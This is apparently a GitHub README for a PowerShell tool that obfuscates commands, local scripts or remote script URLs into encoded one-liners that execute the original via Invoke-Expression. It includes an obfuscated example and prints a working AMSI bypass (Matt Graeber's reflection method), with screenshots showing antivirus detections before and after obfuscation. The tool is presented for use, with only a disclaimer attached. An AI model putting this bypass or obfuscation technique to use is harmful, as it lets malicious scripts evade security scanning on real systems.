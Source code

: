 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner using random polymorphic variables which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added to the char values. 

Example: 
```Write-Host "Hello world!"``` using 6000 as an offset:
```powershell
@(6087,6114,6105,6116,6101,6045,6072,6111,6115,6116,6032,6034,6072,6101,6108,6108,6111,6032,6119,6111,6114,6108,6100,6033,6034)|%{$wdAQf=$wdAQf+[char]($_-6000)};.(gcm ?e[?x])($wdAQf)
```

# VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Unmathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.png)

Mathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


